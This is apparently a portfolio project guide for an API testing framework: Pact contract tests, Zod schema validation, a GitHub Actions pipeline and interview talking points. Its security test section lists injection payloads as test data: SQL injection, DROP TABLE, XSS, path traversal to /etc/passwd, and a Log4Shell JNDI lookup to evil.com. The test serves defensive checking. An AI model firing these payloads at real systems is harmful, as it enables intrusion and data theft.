

# Project 02 — API Testing Framework with Contract Testing

> Complete API testing framework (REST + GraphQL) with schema validation, contract testing (Pact), mock servers, and integration with performance and security.

This project **separates the wheat from the chaff**. Most QAs know how to test UI; very few master contract testing. When a recruiter sees "Pact" on her profile, they will reach out.

---

## 1. What this project demonstrates

- **REST + GraphQL API tests** with TypeScript
- **Contract Testing with Pact** (consumer-driven contracts)
- **Schema validation** with Zod / JSON Schema
- **Mock servers** with WireMock / MSW
- **Basic security tests** (auth, rate limit, SQL injection)
- **Light performance tests** (k6 integrated)
- **Automatic doc generation** from the tests
- **Pipeline that blocks deploy if the contract breaks**

## 2. Why Contract Testing is the "holy grail"

A company with microservices lives terrified of this: team A changes the API, team B breaks in production. **Contract testing prevents this**.

- **Consumer** (frontend, mobile, another service) defines what it expects from the API.
- **Provider** (the API) is tested against that contract.
- If the provider breaks the contract, **CI fails before the merge**.

Putting "Pact" on the portfolio is a strong seniority signal.

## 3. Stack chosen

| Tool | Why |
|------|-----|
| **TypeScript + Vitest** | Fast, modern, native ESM. |
| **Supertest** | Lightweight and idiomatic API testing. |
| **Zod** | Schema validation with type inference. |
| **Pact (pact-js)** | Industry standard for contract testing. |
| **WireMock** | Professional mock server (containerizable). |
| **MSW** | HTTP mock at the Service Worker level, useful to test how a frontend consumes the API. |
| **k6** | Performance integrated in the same tests. |
| **OpenAPI / Swagger** | Validation against the official spec. |
| **Newman + Postman** | Publishable collections alongside. |

## 4. Target APIs (what to test)

Options (pick 1-2):
- **Own API** (Node + Fastify + Prisma), the best option, full control.
- [ReqRes](https://reqres.in/)
- [JSON Placeholder](https://jsonplaceholder.typicode.com/)
- [DummyJSON](https://dummyjson.com/)
- [GraphQL Pokemon](https://graphql-pokemon2.vercel.app/) for the GraphQL part

## 5. Folder structure

```
api-testing-framework/
├── .github/
│   └── workflows/
│       ├── ci.yml
│       ├── contract-publish.yml      # Publishes contracts to the Pact Broker
│       └── contract-verify.yml       # Verifies contracts on the provider
├── docs/
│   ├── architecture.md
│   ├── contract-testing-guide.md
│   ├── adr/
│   │   ├── 001-pact-vs-spring-cloud-contract.md
│   │   ├── 002-zod-for-schemas.md
│   │   └── 003-wiremock-vs-msw.md
│   └── api-coverage-matrix.md         # Coverage matrix
├── src/
│   ├── clients/                       # HTTP clients (one per API)
│   │   ├── BaseApiClient.ts
│   │   ├── UsersClient.ts
│   │   ├── OrdersClient.ts
│   │   └── GraphQLClient.ts
│   ├── schemas/                       # Zod schemas
│   │   ├── user.schema.ts
│   │   ├── order.schema.ts
│   │   └── error.schema.ts
│   ├── builders/                      # Test Data Builders
│   │   ├── UserBuilder.ts
│   │   └── OrderBuilder.ts
│   ├── utils/
│   │   ├── http.ts                    # axios/got wrapper with logs
│   │   ├── auth.ts                    # Token management
│   │   └── retry.ts
│   └── types/
├── tests/
│   ├── functional/                    # REST functional tests
│   │   ├── users.spec.ts
│   │   ├── orders.spec.ts
│   │   └── auth.spec.ts
│   ├── graphql/
│   │   └── queries.spec.ts
│   ├── contract/                      # Pact tests
│   │   ├── consumer/
│   │   │   └── frontend-users.pact.spec.ts
│   │   └── provider/
│   │       └── verify-users-api.spec.ts
│   ├── schema/                        # Validation against OpenAPI
│   │   └── openapi.spec.ts
│   ├── security/                      # Security tests
│   │   ├── auth.spec.ts
│   │   ├── injection.spec.ts
│   │   └── rate-limit.spec.ts
│   └── performance/                   # k6 scripts
│       ├── smoke.js
│       └── load.js
├── mocks/
│   ├── wiremock/
│   │   └── mappings/                  # WireMock JSON mappings
│   └── msw/
│       └── handlers.ts
├── pacts/                             # Generated contracts (gitignore!)
├── postman/
│   ├── collection.json
│   └── environment.json
├── openapi/
│   └── spec.yaml                      # API spec
├── docker/
│   ├── Dockerfile
│   └── docker-compose.yml
├── .env.example
├── vitest.config.ts
├── tsconfig.json
├── package.json
├── Makefile
├── CHANGELOG.md
└── README.md
```

## 6. Schema validation with Zod (elegant)

```typescript
// src/schemas/user.schema.ts
import { z } from 'zod';

export const userSchema = z.object({
  id: z.string().uuid(),
  email: z.string().email(),
  name: z.string().min(1).max(120),
  role: z.enum(['admin', 'user', 'guest']),
  createdAt: z.string().datetime(),
  metadata: z.object({
    lastLogin: z.string().datetime().nullable(),
    loginCount: z.number().int().nonnegative(),
  }),
});

export const userListSchema = z.object({
  data: z.array(userSchema),
  pagination: z.object({
    page: z.number().int().positive(),
    perPage: z.number().int().positive(),
    total: z.number().int().nonnegative(),
  }),
});

export type User = z.infer<typeof userSchema>;
export type UserList = z.infer<typeof userListSchema>;
```

```typescript
// tests/functional/users.spec.ts
import { describe, it, expect } from 'vitest';
import { UsersClient } from '../../src/clients/UsersClient';
import { userSchema, userListSchema } from '../../src/schemas/user.schema';
import { UserBuilder } from '../../src/builders/UserBuilder';

describe('Users API', () => {
  const client = new UsersClient();

  it('GET /users returns paginated list matching the schema', async () => {
    const response = await client.list({ page: 1, perPage: 10 });

    expect(response.status).toBe(200);
    const parsed = userListSchema.safeParse(response.data);
    expect(parsed.success, JSON.stringify(parsed.error, null, 2)).toBe(true);
    expect(parsed.data!.data.length).toBeLessThanOrEqual(10);
  });

  it('POST /users creates a user and returns 201 + Location', async () => {
    const payload = new UserBuilder().asAdmin().withRandomEmail().build();
    const response = await client.create(payload);

    expect(response.status).toBe(201);
    expect(response.headers.location).toMatch(/\/users\/[a-f0-9-]{36}$/);
    expect(() => userSchema.parse(response.data)).not.toThrow();
  });

  it('GET /users/:id returns 404 with the standard error schema', async () => {
    const response = await client.getById('00000000-0000-0000-0000-000000000000');
    expect(response.status).toBe(404);
    expect(response.data).toMatchObject({
      error: { code: 'USER_NOT_FOUND', message: expect.any(String) },
    });
  });
});
```

## 7. Test Data Builder Pattern (senior standard)

```typescript
// src/builders/UserBuilder.ts
import { faker } from '@faker-js/faker';
import type { User } from '../schemas/user.schema';

export class UserBuilder {
  private user: Partial<User> = {
    name: faker.person.fullName(),
    email: faker.internet.email(),
    role: 'user',
  };

  asAdmin(): this { this.user.role = 'admin'; return this; }
  asGuest(): this { this.user.role = 'guest'; return this; }
  withEmail(email: string): this { this.user.email = email; return this; }
  withRandomEmail(): this { this.user.email = faker.internet.email(); return this; }
  withName(name: string): this { this.user.name = name; return this; }

  build(): Partial<User> { return { ...this.user }; }
}
```

**Why this is impressive:** fluent API, natural reading (`new UserBuilder().asAdmin().build()`), reuse without copy-paste.

## 8. Contract Testing with Pact, example

### 8.1. Consumer (the "frontend" defining the contract)

```typescript
// tests/contract/consumer/frontend-users.pact.spec.ts
import { PactV3, MatchersV3 } from '@pact-foundation/pact';
import path from 'node:path';
import { UsersClient } from '../../../src/clients/UsersClient';

const { like, eachLike, uuid, iso8601DateTime } = MatchersV3;

describe('Pact: Frontend to Users API', () => {
  const provider = new PactV3({
    consumer: 'FrontendApp',
    provider: 'UsersAPI',
    dir: path.resolve(process.cwd(), 'pacts'),
  });

  it('GET /users/:id returns a user', async () => {
    provider
      .given('a user with id 123 exists')
      .uponReceiving('a request to fetch user 123')
      .withRequest({ method: 'GET', path: '/users/123' })
      .willRespondWith({
        status: 200,
        headers: { 'Content-Type': 'application/json' },
        body: {
          id: uuid('a1b2c3d4-1234-1234-1234-1234567890ab'),
          email: like('user@example.com'),
          name: like('Jane Doe'),
          role: like('user'),
          createdAt: iso8601DateTime(),
        },
      });

    await provider.executeTest(async (mockServer) => {
      const client = new UsersClient(mockServer.url);
      const response = await client.getById('123');
      expect(response.status).toBe(200);
      expect(response.data.id).toBeDefined();
    });
  });
});
```

This test generates a **`pacts/FrontendApp-UsersAPI.json`** file that is published to the **Pact Broker**.

### 8.2. Provider (the API confirming it honors the contract)

```typescript
// tests/contract/provider/verify-users-api.spec.ts
import { Verifier } from '@pact-foundation/pact';

describe('Pact verification: UsersAPI', () => {
  it('honors all published contracts', () => {
    return new Verifier({
      provider: 'UsersAPI',
      providerBaseUrl: process.env.PROVIDER_URL!,
      pactBrokerUrl: process.env.PACT_BROKER_URL,
      pactBrokerToken: process.env.PACT_BROKER_TOKEN,
      publishVerificationResult: true,
      providerVersion: process.env.GIT_COMMIT,
      stateHandlers: {
        'a user with id 123 exists': async () => {
          await seedDatabase({ id: '123', email: 'user@example.com' });
        },
      },
    }).verifyProvider();
  });
});
```

## 9. Basic security tests

```typescript
// tests/security/injection.spec.ts
import { describe, it, expect } from 'vitest';
import { UsersClient } from '../../src/clients/UsersClient';

describe('Security, injection', () => {
  const client = new UsersClient();
  const payloads = [
    "' OR '1'='1",
    '"; DROP TABLE users; --',
    '<script>alert(1)</script>',
    '../../../etc/passwd',
    '${jndi:ldap://evil.com/a}',
  ];

  it.each(payloads)('rejects malicious payload: %s', async (payload) => {
    const response = await client.search({ q: payload });
    expect([200, 400, 422]).toContain(response.status);
    expect(JSON.stringify(response.data)).not.toMatch(/SQL|stack trace|at \w+\./i);
  });
});
```

```typescript
// tests/security/rate-limit.spec.ts
import { describe, it, expect } from 'vitest';

describe('Rate limiting', () => {
  it('returns 429 after N requests', async () => {
    const client = new UsersClient();
    const results = await Promise.all(
      Array.from({ length: 200 }, () => client.list({ page: 1 }).catch(e => e.response))
    );
    const tooMany = results.filter(r => r?.status === 429);
    expect(tooMany.length).toBeGreaterThan(0);
    expect(tooMany[0].headers['retry-after']).toBeDefined();
  });
});
```

## 10. Validation against OpenAPI

```typescript
// tests/schema/openapi.spec.ts
import { describe, it, expect, beforeAll } from 'vitest';
import OpenAPISchemaValidator from 'openapi-schema-validator';
import yaml from 'js-yaml';
import { readFileSync } from 'node:fs';
import { UsersClient } from '../../src/clients/UsersClient';

describe('Conformance with the OpenAPI spec', () => {
  let validator: any;

  beforeAll(() => {
    const spec = yaml.load(readFileSync('openapi/spec.yaml', 'utf8'));
    validator = new OpenAPISchemaValidator({ version: 3 });
    const result = validator.validate(spec);
    expect(result.errors).toHaveLength(0);
  });

  it('GET /users responds with the schema declared in OpenAPI', async () => {
    // validates response against the spec
  });
});
```

## 11. GitHub Actions, pipeline including Pact

```yaml
# .github/workflows/ci.yml
name: API tests

on: [push, pull_request]

jobs:
  unit-and-functional:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with: { node-version-file: .nvmrc, cache: npm }
      - run: npm ci
      - run: npm run lint && npm run typecheck
      - run: npm run test:functional
      - run: npm run test:schema
      - run: npm run test:security

  contract-consumer:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with: { node-version-file: .nvmrc, cache: npm }
      - run: npm ci
      - run: npm run test:pact:consumer
      - name: Publish pacts
        run: npx pact-broker publish ./pacts \
          --consumer-app-version=${{ github.sha }} \
          --branch=${{ github.ref_name }} \
          --broker-base-url=${{ secrets.PACT_BROKER_URL }} \
          --broker-token=${{ secrets.PACT_BROKER_TOKEN }}

  contract-provider:
    needs: contract-consumer
    runs-on: ubuntu-latest
    services:
      api:
        image: ghcr.io/your-user/api:latest
        ports: ['3000:3000']
    steps:
      - uses: actions/checkout@v4
      - run: npm ci
      - run: npm run test:pact:provider
        env:
          PROVIDER_URL: http://localhost:3000
          PACT_BROKER_URL: ${{ secrets.PACT_BROKER_URL }}
          PACT_BROKER_TOKEN: ${{ secrets.PACT_BROKER_TOKEN }}
```

## 12. Repo README (suggestion)

```markdown
# API Testing & Contract Framework

[]()

> Complete API testing framework: functional, contract (Pact), schema, security, and performance, all in a modern TypeScript stack.

## Coverage

| Type | Tool | Location |
|------|------|----------|
| Functional REST | Vitest + Supertest | `tests/functional/` |
| GraphQL | Vitest + graphql-request | `tests/graphql/` |
| Contract (Consumer) | Pact JS | `tests/contract/consumer/` |
| Contract (Provider) | Pact Verifier | `tests/contract/provider/` |
| Schema | Zod + OpenAPI | `tests/schema/` |
| Security | Custom + OWASP | `tests/security/` |
| Performance | k6 | `tests/performance/` |

## Contract Testing flow



## Quick start

\`\`\`bash
make up
make test:all
\`\`\`
```

## 13. Implementation roadmap

### Week 1
- [ ] Setup TS + Vitest + ESLint
- [ ] BaseApiClient + 1 concrete client
- [ ] Zod schemas (3-4 entities)
- [ ] Basic REST functional tests
- [ ] OpenAPI spec of the target API (write or use an existing one)

### Week 2
- [ ] Test Data Builders
- [ ] Security tests (injection, rate limit)
- [ ] Validation against OpenAPI
- [ ] Basic GraphQL

### Week 3
- [ ] Pact Consumer tests
- [ ] Pact Broker setup (Docker local or Pactflow free tier)
- [ ] Provider verification
- [ ] `can-i-deploy` pipeline

### Week 4
- [ ] WireMock for complex scenarios
- [ ] k6 integrated
- [ ] Newman + published Postman collection
- [ ] README + ADRs

## 14. Talking points for the interview

1. **"I implemented consumer-driven contracts with Pact"**, explain what it prevents between services.
2. **"Schemas validated with Zod, types inferred automatically"**, DRY between test and runtime.
3. **"Pipeline blocks deploy if the contract breaks"**, `pact-broker can-i-deploy`.
4. **"Test Data Builders remove coupling between tests"**, AAA principle + builders.
5. **"Basic security coverage: injection, rate limit, auth"**, thinking beyond the happy path.

## 15. Pitfalls

- Confusing contract testing with integration testing.
- Validating status code only (validate **schema** and **headers**).
- Hardcoded URLs.
- Not cleaning up data between tests (idempotency).
- Committing generated pacts (they should go to the Broker).

---

**Next:** [07-test-data-management-cli](../07-test-data-management-cli/MANUAL.md), to have a package published on npm.
